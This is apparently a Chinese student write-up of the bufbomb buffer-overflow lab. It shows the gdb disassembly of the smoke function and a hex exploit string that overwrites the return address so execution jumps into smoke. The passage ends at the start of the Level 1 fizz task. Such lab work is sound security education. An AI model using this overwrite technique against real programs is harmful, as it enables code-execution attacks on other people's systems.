 由Gets函数的介绍，当输入的字符串长度超过buf的大小时，多余的字符会存在buf往后的地址空间，所以要覆盖掉原来的返回地址，需要输入48字节长度的字符串，最后4字节是我们要用来覆盖的新地址，即smoke函数的入口。

查看smoke函数的汇编代码：

```assembly
(gdb) disass smoke 
Dump of assembler code for function smoke:
   0x08048e0a <+0>:		push   %ebp
   0x08048e0b <+1>:		mov    %esp,%ebp
   0x08048e0d <+3>:		sub    $0x18,%esp
   0x08048e10 <+6>:		movl   $0x804a2fe,0x4(%esp)
   0x08048e18 <+14>:	movl   $0x1,(%esp)
   0x08048e1f <+21>:	call   0x8048990 <__printf_chk@plt>
   0x08048e24 <+26>:	movl   $0x0,(%esp)
   0x08048e2b <+33>:	call   0x8049280 <validate>
   0x08048e30 <+38>:	movl   $0x0,(%esp)
   0x08048e37 <+45>:	call   0x80488d0 <exit@plt>
End of assembler dump.
```

**编写漏洞字符串**

可获知smoke函数的入口为0x08048e0a，所以我们需要将最后4字节设置为08 04 8e 0a，但注意0a会被Gets函数识别为`'\n'`，所以这里需更改为smoke函数下一条指令地址0x08048e0b。其余字符可用00来填充，所以最终的漏洞字符串为：

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 0b 8e 04 08
```

#### 运行结果

![截屏2024-05-22 下午8.43.49](截屏2024-05-22 下午8.43.49.png)

### **Level 1: Sparkler**

#### 任务要求

在可执行文件bufbomb中，还有一个具有以下C代码的函数fizz：

```c
void fizz(int val)
{
		if (val == cookie) {
			printf("Fizz!: You called fizz(0x%x)\n", val);
			validate(1);
      
		} else
			printf("Misfire: You called fizz(0x%x)\n", val);
		exit(0);
}
```
